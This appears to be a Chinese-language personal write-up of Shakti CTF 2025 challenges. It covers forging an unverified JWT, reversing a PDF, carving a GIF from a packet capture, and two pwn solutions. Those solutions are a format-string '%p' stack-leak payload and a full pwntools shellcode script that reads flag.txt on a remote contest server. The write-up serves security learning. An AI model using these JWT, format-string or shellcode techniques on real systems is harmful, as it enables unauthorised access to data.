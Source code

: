 ```yaml
---
title: Shakti CTF 2025
published: 2025-07-26
updated: 2025-08-05
description: "Shakti CTF 2025 writeup"
image: "/assets/ShaktiCTF2025/cover.png"
tags: ["CTF Writeup"]
category: "CTF Writeup"
draft: true
---
```


跟 eating 一起打，這次計分沒有分開計

131 th / 554

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726231045.png)

總覺得越來越不會寫 osint 了，半題沒寫出來 (╥﹏╥)

---

# Shakti CTF 2025

## web

### Hooman

從題目給的 source code 來看，沒有驗證 JWT 簽章，所以可以用線上工具生成一個 `are_you_hooman` 欄位是 true 的 JWT token 就可以拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030552.png)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030750.png)

隨便在首頁輸入一個名字，然後把 cookie 裡面的 JWT token 換成剛剛生成 `are_you_hooman` 為 true 的 token 就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030455.png)

```txt
shaktictf{now_uk_jwts_hoomannnnn}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726030509.png)

## forensics

### Binary Reflection

拿到的 pdf 看起來像被倒過來(第一行變成最後一行、第二行變倒數第二行...，依此類推)

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725205953.png)

先把 pdf 內容倒過來

```bash
tac corrupt.pdf > fixed.pdf
```

然後再用線上工具去看 pdf 裡面有沒有藏東西，就拿到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210554.png)

```txt
shaktictf{pdf_pr3tty_d4m4g3d_f0rm4t}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210526.png)

### Glitch In Frame

封包裡面有文字以及一張 gif

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725210952.png)

不知道要怎麼正確的把 gif 拿出來，直接把內容複製出來

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213504.png)

貼到 cyberchef ，output 是一張 gif，可以看出來是在播放的 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213515.png)

用線上工具把 gif 放慢，就能得到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725213801.png)

```txt
shaktictf{v1sU4l_d@t4_xf3ltr4t10n_thru_pkt5_and_fr4m3s_is_n0t_a_myth_just_v3ry_und3rr4ted}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250725214542.png)

## PWN

### Secret Mission

這題的第一個反應是用 `%p` 去看 stack 上有甚麼

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013334.png)

```txt
AAAAAAAAAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

在本地測試一下發現只要用很多 `%p` 就可以在 print 出來的東西裡面發現 flag，所以 nc 過去輸入一樣的 payload

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013259.png)

整個貼到 cyberchef 上面就能拿到很像 flag 的東西

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013316.png)

把這段字串貼到 Multi Decoder，再稍微排序一下就得到 flag 了

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013020.png)

```txt
shaktictf{th3_eXtr@ct3d_@bilitie5_v@n1sh_but_th3_fl@g_r3m@1ns}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726013235.png)

### Seashells

用 ghidra 看程式碼，首先會讀取最大 0x500 (1280 bytes) 的輸入到 local_518，然後使用 mmap() 建立一塊 可讀、可寫、可執行的記憶體區段（RWX），並將輸入複製到該區段，再把這段記憶體區段當作函式來呼叫，(\*\_\_dest)(); 直接跳入 shellcode 執行

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023602.png)

`seccomp_initialisation()` 裡面有允許的 syscall，例如`open`、`read`、`write` 等少數幾個

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023641.png)

讓 chatgpt 生 script 然後再調整檔名

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

shellcode = asm('''
    xor rax, rax
    lea rdi, [rip + filename]
    xor rsi, rsi
    mov rax, 2          /* sys_open */
    syscall

    mov rdi, rax        /* fd */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 0          /* sys_read */
    syscall

    mov rdi, 1          /* stdout */
    lea rsi, [rip + buf]
    mov rdx, 100
    mov rax, 1          /* sys_write */
    syscall

    mov rax, 60         /* sys_exit */
    xor rdi, rdi
    syscall

filename:
    .asciz "flag.txt"
buf:
    .space 100
''')

def main():
    p = remote("43.205.113.100", 8855)

    prompt = p.recvuntil(b'>>')
    print(prompt.decode())

    p.send(shellcode.ljust(0x500, b'\x00'))

    flag = p.recvrepeat(timeout=3)
    print("[*] Flag output:\n", flag.decode())

    p.close()

if __name__ == "__main__":
    main()
```

成功拿到 flag

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023516.png)

```txt
shaktictf{u_g0t_wh@t_u_w15h3d__th3_s3@sh311_f1@g}
```

![](/assets/ShaktiCTF2025/Pasted%20image%2020250726023316.png)

---

分享一下很酷的東西，少了提示可能這輩子都找不到 welcome flag 了

不確定甚麼原理，但是在 discord 裡面，這一段符號後面的內容除了把整份文字複製下來才可以看到，並且送出訊息後不會通知

```txt
  ||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​||||​|| _ _ _ _ _
```

應該是整到很多人，太好玩了，到比賽結束前還有人在文字頻道 /flag
